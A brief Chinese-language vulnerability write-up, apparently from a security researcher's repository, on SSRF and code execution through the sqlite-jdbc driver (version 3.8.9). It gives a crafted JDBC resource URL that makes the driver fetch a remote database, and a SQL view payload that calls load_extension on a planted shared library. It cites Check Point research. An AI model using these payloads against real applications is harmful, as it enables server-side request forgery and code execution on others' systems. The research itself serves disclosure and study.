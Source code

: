 # SQLLite With SSRF

当sqllite建立连接是会调用`org.sqlite.core.CoreConnection#open`

![](img/1.png)

可以看到这里有一个extractResource

![](img/2.png)

这意味着如果我们准备一个连接，如jdbc:sqlite::resource:http://127.0.0.1:8888/poc.db，SQLite将连接该地址并从中获取内容。这确实会导致SSRF



如何拓展攻击面呢

参考 "[选择code_execution从 * 使用 SQLite;- 检查点研究 (checkpoint.com)](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/)"，我们可以利用 "CREATE VIEW "将不可控的SELECT语句转换为可控。

如果我们能够控制SELECT语句，我们可以使用SELECT load_extension('/tmp/test.so')来加载dll/so并执行邪恶的代码，但是在现实世界中，在目标系统上拥有可控制的文件并不容易，而且load_extension默认设置为关闭。

首先我们对恶意的sqlite文件执行

```sql
create view y4tacker as SELECT (select load_extension('/tmp/1.so'))
```

之后当我们执行`statement.execute("SELECT * FROM security");`的时候就可以实现攻击

依赖给出便于复现

```xml
<dependency>
  <groupId>org.xerial</groupId>
  <artifactId>sqlite-jdbc</artifactId>
  <version>3.8.9</version>
</dependency>
```


